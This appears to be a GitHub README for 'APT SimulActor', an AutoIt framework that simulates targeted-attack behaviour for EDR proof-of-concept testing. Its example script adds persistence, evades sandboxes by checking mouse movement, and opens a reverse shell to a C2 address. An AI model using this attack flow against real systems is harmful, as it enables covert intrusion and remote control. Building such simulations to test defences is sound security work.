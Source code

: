 # APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.


## Example Flow

![flow](https://user-images.githubusercontent.com/24607076/70719514-0af56200-1cea-11ea-8167-4bbe872d525c.PNG)


## Example Code
```
#include "libs/settings.au3"
#include "libs/network.au3"
#include "libs/info.au3"
#include "libs/files.au3"
#include "libs/misc.au3"

$victim = "test"
$c2server = "192.168.0.1"
$c2port = "432"

if isRunningFromTemp() Then

   SetPersistent4CurrentUser()

   ReverseShell($c2server, $c2port)

Else

   if AmIusername($victim) Then

	  if InternetCheck() Then

		 if DetectMouseMoving() Then

			MessageBox("Debug","Hi!")

			CopyTempRun()

		 EndIf

	  EndIf

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

